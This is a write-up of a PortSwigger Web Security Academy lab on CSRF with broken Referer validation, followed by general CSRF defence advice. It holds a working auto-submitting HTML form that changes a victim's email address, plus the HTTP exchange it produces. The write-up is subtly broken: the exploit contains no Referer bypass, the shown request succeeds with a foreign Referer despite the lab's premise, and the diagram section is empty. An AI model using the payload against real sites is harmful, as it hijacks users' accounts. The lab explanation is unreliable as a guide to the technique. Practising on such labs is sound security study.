

## Lab 8: CSRF with Broken Referer Validation

### Background

In this lab, we will exploit a CSRF vulnerability in an email change functionality. The application attempts to detect and block cross-domain requests using the `Referer` header, but this mechanism can be bypassed. Our goal is to use our exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

### Setting Up the Lab

1. **Access the Lab**:
    - Visit [PortSwigger Web Security Academy](https://portswigger.net/web-security).
    - Sign up for an account if you don't already have one.
    - Navigate to the Academy section and select the learning path for Cross-Site Request Forgery.
    - Find the lab titled "CSRF with Broken Referrer validation."

2. **Understanding the Vulnerability**:
    - The application has a feature to change the user's email address.
    - The application attempts to block cross-domain requests by checking the `Referer` header.
    - However, this check can be bypassed, allowing an attacker to exploit the CSRF vulnerability.

### Crafting the Exploit

To exploit the CSRF vulnerability, we need to craft a malicious request that changes the user's email address. We will use our exploit server to host an HTML page that triggers this request.

#### Step-by-Step Exploitation

1. **Identify the Vulnerable Parameter**:
    - The vulnerable parameter is the email address field in the email change functionality.
    - The request to change the email address might look like this:
      ```http
      POST /change-email HTTP/1.1
      Host: vulnerable-app.com
      Content-Type: application/x-www-form-urlencoded
      
      email=newemail@example.com
      ```

2. **Craft the Malicious Request**:
    - We need to create an HTML page that sends this request when loaded.
    - Here is an example of the HTML page:
      ```html
      <!DOCTYPE html>
      <html>
      <body>
        <form id="csrfForm" method="POST" action="https://vulnerable-app.com/change-email">
          <input type="hidden" name="email" value="newemail@example.com">
        </form>
        <script>
          document.getElementById('csrfForm').submit();
        </script>
      </body>
      </html>
      ```

3. **Host the Exploit on the Server**:
    - Upload the HTML page to your exploit server.
    - Ensure the server is configured to serve the HTML page correctly.

4. **Trigger the Attack**:
    - Send the link to the HTML page to the victim.
    - When the victim loads the page, the form will be submitted, changing their email address.

### Full HTTP Request and Response

Here is the full HTTP request and response for the exploit:

```http
GET /exploit.html HTTP/1.1
Host: exploit-server.com

HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<body>
  <form id="csrfForm" method="POST" action="https://vulnerable-app.com/change-email">
    <input type="hidden" name="email" value="newemail@example.com">
  </form>
  <script>
    document.getElementById('csrfForm').submit();
  </script>
</body>
</html>

POST /change-email HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Referer: https://exploit-server.com/exploit.html

email=newemail@example.com

HTTP/1.1 200 OK
Content-Type: text/html

Email changed successfully.
```

### Mermaid Diagrams

Let's visualize the attack chain using a mermaid diagram:



### Common Pitfalls and Mistakes

When exploiting CSRF vulnerabilities, common pitfalls include:

1. **Incorrect Token Handling**: Not properly handling unique tokens for each session.
2. **SameSite Cookie Misconfiguration**: Not configuring cookies to be sent only in first-party contexts.
3. **Referer Header Bypass**: Not thoroughly testing the `Referer` header validation mechanism.

### How to Prevent / Defend Against CSRF

#### Detection

To detect CSRF vulnerabilities, you can:

1. **Automated Scanning Tools**: Use tools like Burp Suite, OWASP ZAP, or commercial scanners to identify potential CSRF vulnerabilities.
2. **Manual Testing**: Manually test the application by crafting and submitting malicious requests.

#### Prevention

To prevent CSRF attacks, implement the following measures:

1. **Token-Based Protection**:
    - Generate a unique token for each session.
    - Include the token in each request and validate it on the server side.
    - Example of a secure token-based implementation:
      ```python
      # Secure Token Implementation
      import secrets

      def generate_token():
          return secrets.token_hex(16)

      def validate_token(request_token, session_token):
          return request_token == session_token
      ```

2. **SameSite Cookies**:
    - Configure cookies to be sent only in first-party contexts.
    - Example of setting SameSite cookies:
      ```http
      Set-Cookie: sessionid=abc123; SameSite=Strict
      ```

3. **Referer Header Validation**:
    - Ensure the `Referer` header is checked correctly.
    - Example of checking the `Referer` header:
      ```python
      def validate_referer(referer, allowed_domains):
          if not referer:
              return False
          for domain in allowed_domains:
              if referer.startswith(f"https://{domain}/"):
                  return True
          return False
      ```

4. **Content Security Policy (CSP)**:
    - Implement CSP to restrict the sources of content that can be loaded.
    - Example of setting CSP:
      ```http
      Content-Security-Policy: default-src 'self'
      ```

### Secure Coding Fixes

Here is an example of a vulnerable code snippet and its secure counterpart:

#### Vulnerable Code

```python
# Vulnerable Code
def change_email(email):
    # Change the email address
    pass
```

#### Secure Code

```python
# Secure Code
import secrets

def generate_token():
    return secrets.token_hex(16)

def validate_token(request_token, session_token):
    return request_token == session_token

def change_email(email, request_token, session_token):
    if validate_token(request_token, session_token):
        # Change the email address
        pass
    else:
        raise Exception("Invalid token")
```

### Configuration Hardening

Ensure your web application is configured securely by:

1. **Setting Secure Headers**:
    - Use tools like `helmet` in Node.js to set secure headers.
    - Example of setting secure headers:
      ```javascript
      const helmet = require('helmet');
      app.use(helmet());
      ```

2. **Disabling Unnecessary Features**:
    - Disable features that are not required, such as CORS for third-party domains.

### Conclusion

CSRF attacks are a significant threat to web applications. By understanding how they work and implementing robust defenses, you can protect your applications from these types of attacks. Always stay vigilant and keep your security practices up to date.

### Practice Labs

For hands-on practice with CSRF vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice different types of CSRF attacks.
- **OWASP Juice Shop**: Provides a vulnerable web application to practice various security vulnerabilities, including CSRF.
- **DVWA (Damn Vulnerable Web Application)**: Another vulnerable web application to practice security vulnerabilities.

By practicing in these environments, you can gain a deeper understanding of how to detect and prevent CSRF attacks.

---
<!-- nav -->
[[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/09-Lab 8 CSRF with broken Referer validation/01-Introduction to Cross-Site Request Forgery (CSRF)|Introduction to Cross-Site Request Forgery (CSRF)]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/09-Lab 8 CSRF with broken Referer validation/00-Overview|Overview]] | [[Web Security (PortSwigger)/04-Cross-Site Request Forgery (CSRF)/09-Lab 8 CSRF with broken Referer validation/03-Cross-Site Request Forgery (CSRF)|Cross-Site Request Forgery (CSRF)]]
